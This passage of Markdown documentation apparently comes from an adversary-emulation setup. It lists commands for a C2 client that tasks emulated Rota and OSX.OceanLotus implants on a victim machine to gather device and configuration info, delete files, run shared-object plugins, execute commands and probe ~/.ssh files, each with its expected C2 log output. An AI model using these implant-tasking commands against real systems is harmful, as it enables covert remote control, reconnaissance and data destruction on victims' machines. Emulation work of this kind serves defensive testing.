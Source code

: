 - Get device info
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_upload_dev_info"}'
    ```
	- Expected C2 server output (username-machine-kernel)
		```
        [Task] 2023/07/31 13:46:20 gdev-Linux-6.1.39-1-lts
		```

- Delete file
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_delete_file", "arg":"local_rota_file"}'
    ```
- Shared Object execution
    > :information_source: **Note:** this Shared Object will be called local_rota_file.so, but the exported function name can be anything*
    ```
    ./evalsC2client.py --set-task 01020304 '{"cmd": "Rota_run_plugin", "arg": "update"}'
    ```

#### OSX.OceanLotus

- Run a command
    ```
    # task the OSX.OceanLotus implant to execute whoami on the victim machine
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_run_cmd", "arg":"whoami"}'
    ```
    - Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:16:46 bob
        ```

- Get implant configuration information
    ```
    # task the OSX.OceanLotus implant to retrieve its stored configuration information
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_config_info"}'
    ```
    - Expected C2 server log output:
        ```
        [Task] 2023/07/31 10:19:10 Config Info:
        ID: yD89SSQbp8n7cjRooM28jg==
        Path: /Users/bob/Downloads/
        Install Time: 1690812988
        ```

- Get a file size (in bytes)
    ```
    # task the OSX.OceanLotus implant to get the file size in bytes of /Users/bob/.ssh/known_hosts
    ./evalsC2client.py --set-task <OSX.OceanLotus ID> '{"cmd":"OSX_get_file_size", "arg":"/Users/bob/.ssh/known_hosts"}'
    ```
    - Expected C2 server log output
        ```
        [Task] 2023/07/31 10:21:39 Size of /Users/bob/.ssh/known_hosts: 1055 bytes
        ```
